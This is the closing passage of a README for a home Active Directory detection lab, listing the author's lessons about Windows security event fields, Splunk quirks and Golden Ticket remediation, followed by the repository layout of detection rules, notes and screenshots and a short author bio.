  


Dashboard source: [`dashboards/ad_detectlab_dashboard.xml`](dashboards/ad_detectlab_dashboard.xml)
Full PDF export of the final, working dashboard (all 6 panels correct): [`dashboards/ad_detectlab_dashboard_export.pdf`](dashboards/ad_detectlab_dashboard_export.pdf)

---

## Everything I Learned / Mistakes Worth Remembering

These are the notes I'm keeping for myself going forward, not just a recap for a reader:

1. **4769's `Account_Name` is the requester, not the victim.** `Service_Name` is the actual target. I will never assume a field name's plain-English meaning without checking the real event schema again.
2. **Splunk's auto-extracted fields can silently drop data on multi-line properties.** Event 4662's `Properties` field only captured the first line; the GUID I actually needed was on the next raw line. When a field-based filter returns zero and I can *see* the value in the raw event, match the raw text instead of trusting the extracted field.
3. **Event 4662 has no `Client_Address`.** Attribution for object-access events needs a different correlation path (e.g. `Logon_ID` → 4624) than Kerberos ticket events do.
4. **A single `krbtgt` reset does NOT kill a Golden Ticket**, because of N-1 key retention for DC replication safety. It needs two consecutive resets. An ordinary account's NTLM hash only needs one reset — these two things are not the same and I need to stop assuming they behave the same way.
5. **"Directory Service Access" (4662) and "Directory Service Changes" (5136) are two completely different audit subcategories.** Having one enabled tells you nothing about the other. Most environments (mine included, by default) only have 4662-style auditing on, which means "who granted this permission" is often genuinely unanswerable after the fact unless 5136 was already on *before* the incident. This is the single most important finding from the whole lab — a detection gap, not an attack.
6. **Golden Ticket detection ("TGS with no matching TGT") has to be computed in narrow time buckets**, not as a lifetime total, or legitimate unrelated activity elsewhere in the search window hides the real signature.
7. **Restarting the Splunk forwarder is required after editing `inputs.conf`** — it doesn't pick up changes live.
8. **Test risky/irreversible commands against a throwaway account first** (I did this for both the Golden Ticket `ticketer` syntax and the 5136 audit-rule setup) before running them against the real target account.

---

## Repository Structure

```
AD-DetectLab/
├── README.md
├── architecture.png
├── dashboards/
│   ├── ad_detectlab_dashboard.xml
│   └── ad_detectlab_dashboard_export.pdf
├── detections/                      # Sigma-style detection rules, one per technique
│   ├── 01_kerberoasting.yml
│   ├── 02_asrep_roasting.yml
│   ├── 03_bloodhound_path.yml
│   ├── 04_golden_ticket.yml
│   ├── 05_dcsync.yml
│   └── 06_pass_the_hash.yml
├── concept-cards/                   # Plain-language notes per technique (Arabic)
│   ├── 01-kerberoasting.md
│   ├── 02-asrep-roasting.md
│   ├── 03-bloodhound.md
│   ├── 04-golden-ticket.md
│   ├── 05-dcsync.md
│   └── 06-pass-the-hash.md
└── screenshots/                     # every screenshot referenced above, in order
    ├── 01-environment-setup/
    ├── 02-lab-buildout/
    ├── 03-kerberoasting-asrep-detection/
    ├── 04-bloodhound-recon/
    ├── 05-dcsync-attack-and-detection/
    ├── 06-golden-ticket-attack-and-remediation/
    ├── 07-pass-the-hash-attack-and-remediation/
    └── 08-splunk-dashboard/
```

---

## Author

**Karim Elmokhraty** — Cybersecurity Engineer, working toward a SOC Analyst / Blue Team role.
